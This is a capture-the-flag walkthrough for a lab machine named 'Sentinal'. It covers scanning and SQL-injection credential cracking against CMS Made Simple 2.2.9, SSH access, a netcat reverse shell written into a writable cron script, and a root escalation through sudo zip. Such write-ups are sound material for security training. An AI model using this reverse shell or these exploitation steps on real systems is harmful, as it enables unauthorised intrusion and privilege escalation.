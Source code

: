 # Exploitation Guide for Sentinal

## Enumeration

We start the enumeration process with a simple Nmap scan:
```
kali@kali:~/# nmap 192.168.83.150
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-14 03:54 EDT
Nmap scan report for 192.168.83.150
Host is up (0.00041s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
We find port 80 is open and visit it in our browser as a first step. On the page we find apache default home page. 
Checking /robots.txt and source code don't giveus anything. So let's start directory bruteforcing using dirb.

```
root@sentinal-VirtualBox:~# dirb http://192.168.83.150 -X .txt
-----------------
DIRB v2.22    
By The Dark Raver
-----------------
START_TIME: Sat Sep 19 05:49:57 2020
URL_BASE: http://192.168.83.150/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]
-----------------
GENERATED WORDS: 4612                                                          
---- Scanning URL: http://192.168.83.150/ ----
+ http://192.168.83.150/note.txt (CODE:200|SIZE:151)                                                                                                                                                                                      
-----------------
END_TIME: Sat Sep 19 05:49:59 2020
DOWNLOADED: 4612 - FOUND: 1
```

We find a hidden note.txt that says
```
Dear Developers,

Our website is moved to sentinal.com
Do login into the panel, configure the website and start building project.

Thank you
sys admin
```


It is running an virtual host of sentinal.com
So we have to add sentinal.com in /etc/hosts
```
kali@kali:~# nano /etc/hosts
192.168.83.150  sentinal.com
```

## Exploitation

On visiting sentinal.com in our browser, we find it is running `CMS Made Simple v2.2.9`.
Searching for an exploit, we find it is vulnerable to SQL injection.
```
Cmsms < 2.2.10 SQL Injection
https://www.exploit-db.com/exploits/46635
```
Before running the script make sure following packages are installed
```
	apt install python-pip
	pip install requests
	pip install setuptools
	pip install termcolor
```
Execute the script with a wordlist to bruteforce
```
python 46635.py -u http://sentinal.com -w /opt/rockyou.txt --crack 

[+] Salt for password found: 551c92a536111490
[+] Username found: juniordev
[+] Email found: juniordev@sentinal.com
[+] Password found: a25bb9e6782e7329c236d2538dd4f5ac
[+] Password cracked: passion
```
We get a username `juniordev` and a password `passion`.
Now we can use this creds to SSH login to the system
```
ssh juniordev@192.168.83.150
password: passion

juniordev@sentinal: whoami
juniordev
```
## User Escalation

Looking at the /etc/crontab we find there is a cronjob run by user sentinal every minute
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * sentinal /home/sentinal/Pictures/sentinal.sh
```


Going to /home/sentinal/Pictures and checking file permissions on senitnal.sh we find it is writable by user juniordev
```
juniordev@sentinal:/home/sentinal/Pictures$ ls -la
total 12
drwxr-xr-x  2 sentinal sentinal 4096 Sep 19 05:42 .
drwxr-xr-x 17 sentinal sentinal 4096 Sep 19 08:09 ..
-rwxrwxrw-  1 sentinal sentinal   76 Sep 19 08:12 sentinal.sh
```
Adding a reverse shell in sentinal.sh and getting a shell as user sentinal
```	
juniordev@sentinal:/home/sentinal/Pictures$ nano sentinal.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.6.2 920 >/tmp/f
```
```
kali@kali: nc -nvlp 920
listening on [any] 920 ...
192.168.83.150: inverse host lookup failed: Unknown host
connect to [kali] from (UNKNOWN) [192.168.83.150] 55428
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
sentinal@sentinal: whoami
sentinal
```

## Root Escalation

User sentinal can run /bin/zip as sudo
```
sentinal@sentinal:~$ sudo -l
sudo -l
Matching Defaults entries for sentinal on sentinal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sentinal may run the following commands on sentinal:
    (ALL) NOPASSWD: /bin/zip
```
zip binary has an unzip-command argument that can be used to run arbitary commands on the system 
```
sudo /bin/zip /tmp/kunal.zip /tmp/ -T --unzip-command="sh -c /bin/bash"
```
Another way to exploit zip binary is using gtfobins
```
sudo /usr/bin/zip mktemp -T -TT 'bash #'
```
And we are root
# id
id
uid=0(root) gid=0(root) groups=0(root)
# whoami
whoami
root
	
